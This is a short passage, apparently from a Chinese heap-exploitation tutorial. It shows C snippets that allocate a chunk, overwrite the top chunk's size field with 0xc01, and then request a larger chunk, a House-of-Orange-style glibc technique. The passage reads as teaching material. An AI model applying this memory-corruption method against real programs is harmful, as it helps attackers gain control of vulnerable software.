 ```plain
p1 = malloc(0x400-16);
```

[![](assets/1701606938-13ddf1d27d32b825a67368717df8e7f1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231014201402-29d1dd50-6a8b-1.png)

改 topchunk size

```plain
top = (size_t *) ( (char *) p1 + 0x400 - 16);
    top[1] = 0xc01;
```

[![](assets/1701606938-f4421eb81c6a77d307f2f64c6757c9ea.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231014201413-2fe78640-6a8b-1.png)

再申请一块大于 topchunk size 的堆块
